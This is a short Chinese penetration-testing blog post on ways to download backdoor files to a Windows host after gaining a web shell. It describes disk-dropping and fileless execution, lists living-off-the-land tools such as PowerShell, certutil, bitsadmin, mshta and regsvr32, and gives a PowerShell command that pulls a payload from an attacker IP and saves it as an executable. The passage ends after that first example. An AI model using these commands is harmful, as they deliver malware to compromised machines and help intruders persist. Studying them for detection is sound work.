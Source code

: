 ```yaml
---
title: Windows命令行下载文件方法
top: false
cover: false
categories:
- 渗透测试
tags:
- 命令行下载文件
- shell
abbrlink: 54938
date: 2020-09-22 20:50:27
keywords:
summary:
img:
password:
---
```


当我们通过Web方式获取了一个Shell，而目标主机是Windows，我们下面后门文件到目标主机**一般有两种方式：**

1. 远程下载文件到本地，然后再执行；

2. 远程下载执行，执行过程没有二进制文件落地（这种方式已然成为后门文件下载执行的首要方式）



**常见的下载方式**

- PowerShell
- Bitsadmin
- certutil
- wget
- ipc$文件共享
- FTP
- TFTP
- WinScp
- msiexec
- IEExec
- mshta
- rundll32
- regsvr32
- MSXSL.EXE
- pubprn.vbs





### 1.Powershell

远程下载文件保存在本地：

```bash
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.0.115/payload.txt','payload.exe')
```
